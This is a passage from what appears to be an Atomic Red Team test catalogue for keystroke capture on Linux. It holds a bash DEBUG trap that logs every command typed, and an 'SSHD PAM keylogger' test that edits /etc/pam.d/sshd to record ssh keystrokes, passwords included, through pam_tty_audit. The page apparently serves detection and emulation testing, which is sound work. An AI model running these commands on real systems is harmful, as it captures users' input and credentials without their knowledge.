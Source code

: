 #### Attack Commands: Run with `bash`!

```bash
trap 'echo "$(date +"%d/%m/%y %H:%M:%S.%s") $USER $BASH_COMMAND" >> #{output_file}' DEBUG
echo "Hello World!"
cat #{output_file}
```

#### Cleanup Commands:

```bash
rm #{output_file}
```

#### Dependencies: Run with `sh`!

##### Description: This test requires to be run in a bash shell

##### Check Prereq Commands:

```sh
if [ "$(echo $0)" != "bash" ]; then echo -e "\n***** Bash not running! *****\n"; exit 1; fi
```

##### Get Prereq Commands:

```sh
echo ""
```

<br/>
<br/>

## Atomic Test #6 - SSHD PAM keylogger

Linux PAM (Pluggable Authentication Modules) is used in sshd authentication. The Linux audit tool auditd can use the pam_tty_audit module to enable auditing of TTY input and capture all keystrokes in a ssh session and place them in the /var/log/audit/audit.log file after the session closes.

**Supported Platforms:** Linux

**auto_generated_guid:** 81d7d2ad-d644-4b6a-bea7-28ffe43becca

#### Inputs:

| Name         | Description                         | Type   | Default Value |
| ------------ | ----------------------------------- | ------ | ------------- |
| user_account | Basic ssh user account for testing. | string | ubuntu        |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
cp -v /etc/pam.d/sshd /tmp/
echo "session required pam_tty_audit.so disable=* enable=* open_only log_passwd" >> /etc/pam.d/sshd
systemctl restart sshd
systemctl restart auditd
ssh #{user_account}@localhost
whoami
sudo su
whoami
exit
exit
```
